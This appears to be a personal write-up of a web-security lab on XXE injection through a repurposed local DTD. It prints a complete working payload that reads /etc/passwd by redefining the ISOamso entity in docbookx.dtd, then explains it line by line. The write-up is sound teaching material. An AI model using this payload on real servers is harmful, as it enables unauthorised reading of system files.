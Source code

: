 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

>This lab has a "Check stock" feature that parses XML input but does not display the result.

>To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

>You'll need to reference an existing DTD file on the server and redefine an entity from it.


### Observations
We can see the vulnerable xml at `POST /product/stock`

This lab really puzzled me, so I looked at the solution and will try to break down why the solution works. Here is solution payload, which is to be inserted between the xml definition and the `<stockCheck>` attribute

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### Breaking it down line by line
`<!DOCTYPE message [` -- DTD for item called message

`<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">` -- Getting reference to local DTD and storing it in var `local_dtd`

`<!ENTITY % ISOamso '` -- Starting definition for entity called `ISOamso` (Notice that the `'` is not closed, so the below 2 entities are nested inside this `ISOamso` entity)

`<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">` -- Nested entity under `ISOamso`, creates entity called `file` that points to /etc/passwd

`<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">` -- Creates entity called `eval` which will attempt to read a file that does not exist

`&#x25;eval;` -- calls the `eval` entity

`&#x25;error;` -- calls the `error` entity, which is nested inside `eval`

`'>` -- closing of the `ISOamso` entity definition. 

`%local_dtd;` -- Now that we have defined what our xml does, let's actually execute it

`]>` -- Close the DTD

### Explanation
In short, we accessed the existing DTD and overwrote the value of `ISOamso`. The error message then spits out the contents of `/etc/passwd`